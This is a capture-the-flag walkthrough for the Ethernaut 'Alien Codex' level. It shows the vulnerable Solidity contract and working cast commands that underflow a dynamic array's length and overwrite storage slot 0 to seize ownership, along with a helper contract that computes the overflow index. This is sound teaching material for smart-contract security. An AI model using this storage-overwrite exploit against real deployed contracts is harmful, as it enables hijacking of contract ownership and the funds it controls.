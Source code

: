 ## Alien Codex Level Outline

**Difficulty : 7/10**

You've uncovered an Alien contract. Claim ownership to complete the level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272)

## Solution

Inherited contracts share the same storage slot with their derived contracts. 

Meaning we need to modify storage slot 0 to complete this level as that is where the variable `owner` will live.

Remember that dynamic arrays are not stored contiguously in storage. Instead their intended **storage slot contains the size of the dynamic array** and to find the memory address where the dynamic array's element are stored, we have to calculate a keccak256 hash.

```
memory_address = keccak256(p)

where
- - -  
memory_address  : address of starting element of dynamic array
p               : storage position of dynamic array
```
> in our case, p = 1 as `address owner` and `bool contact` sharing storage slot 0 as both variables are less than 32bytes

### Walkthrough
##### 1. Call `make_contact()` so that we can satisfy the `contacted()` modifier
```console
cast send $LEVEL_ADDRESS "make_contact()" --private-key $PRIVATE_KEY
```

##### 2. Let's inspect storage and confirm that we need to target storage slot 1
```console
cast storage $LEVEL_ADDRESS 0
```
output :
```
0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
```

let's also find the current contract owner
```console
cast call $LEVEL_ADDRESS "owner()"
```
output :
```
0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
```

we can see that the variable `address owner` and `bool contact` have been packed into storage slot 0. We want to attack this storage slot to change the owner variable value to our address.

this means that stroage slot 1 will hold the length of our dynamic array `codex`

```console
cast storage $LEVEL_ADDRESS 1
```
output
```
0x0000000000000000000000000000000000000000000000000000000000000000
```
> this is correct as codex initially starts with a size of 0

##### 3. Forcing a underflow
if we call the `retract()` method, the length of `codex` will underflow resulting in the array having a length of 2^256, which is the same size as the total contract storage as the EVM reserves 2^256 slots of 32 bytes.

```console
cast send $LEVEL_ADDRESS "retract()" --private-key $PRIVATE_KEY
```

let's confirm that the underflow was succesful by checking storage slot 1 (which will hold the length of the array)
```console
cast storage $LEVEL_ADDRESS 1
```
output :
```
0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```


##### 3. Calculating attack parameters to modify storage slot 0
now that the length of `codex` is equal to the size of the contract storage, we can use the function `revise(uint,bytes32)` to modify any storage slot.

we know that the `owner` variable is located at storage slot 0, we have to provide an index to `revise(uint,bytes32)` such that it will overflow the maximal length of `codex` and point to storage slot 0.

calculation of index **revise_index** to cause an overflow to storage slot 0

```
codex_memory_address = keccak256(bytes32(1))

revise_index = 2^256 - codex_memory_address
```

to quickly calculate **revise_index**, open remix and run the following contract

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.4.8;

contract Calc {
    uint256 public revise_index;

    function getIndex() public {
        bytes32 codex_index = keccak256(bytes32(uint256(1)));
        revise_index = 2 ** 256 - 1 - uint(codex_index) + 1;
    }
}
```
> credit to [Igor Yalovoy](https://ylv.io/ethernaut-alien-codex-solution/) for the script

returns a value of :

```
revise_index=35707666377435648211887908874984608119992236509074197713628505308453184860938
```

when we call `revise(uint,bytes32)` with the value above as the index, it will overflow `codex` and point to storage slot 0. We can prove this quickly by adding the memory address of 'codex' with `revise_index` together

```
// codex memory address
0x4EF1D2AD89EDF8C4D91132028E8195CDF30BB4B5053D4F8CD260341D4805F30A 

// revise_index (in hex)
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6

// adding them together yields 
0x10000000000000000000000000000000000000000000000000000000000000000

// which overflows to 
0x0000000000000000000000000000000000000000000000000000000000000000
```
> bonus : we can target any address below `codex's memory address` by adding the index of the storage slot that we want to attack to `revise_index` e.g. to attack storage slot 3, we would calculate `revise_index = revise_index + 3`

##### 4. Sending transaction to complete level

we first need to **left pad** our EOA address because the address data type requires 20bytes but `revise` requires us to send it 32bytes
```
// example EOA
0x8aFF5cA996F77487a4f04F1ce905Bf3d27455580

// left-padding EOA with 12 bytes
0x0000000000000000000000008aFF5cA996F77487a4f04F1ce905Bf3d27455580
```
> one bytes 2^8 bits which is represented using 2 hex digits. so we left pad 12*2 zeros

```console
cast send $LEVEL_ADDRESS "revise(uint,bytes32)" 35707666377435648211887908874984608119992236509074197713628505308453184860938 \
$LEFT_PADDED_EOA --private-key $PRIVATE_KEY
```

## Further Reading
[Write up to a similar problem](https://weka.medium.com/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)


---

##### [:arrow_left: Back To Main Menu](../README.md)
